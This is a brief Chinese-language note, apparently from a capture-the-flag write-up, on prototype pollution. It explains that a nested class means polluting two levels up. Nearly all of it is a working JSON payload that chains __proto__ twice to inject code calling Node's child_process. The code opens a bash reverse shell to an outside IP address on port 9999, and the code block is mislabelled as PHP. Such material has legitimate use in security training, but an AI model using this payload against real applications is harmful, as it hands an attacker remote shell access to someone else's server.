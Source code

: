 # 知识点
# 思路
类中还含有一个类，所以要向上污染两层
```php
{"__proto__":{"__proto__":{"query":"\nglobal.process.mainModule.constructor._load('child_process').exec('bash -c \"bash -i >& /dev/tcp/101.43.225.132/9999 0>&1\"')//"}}}
```


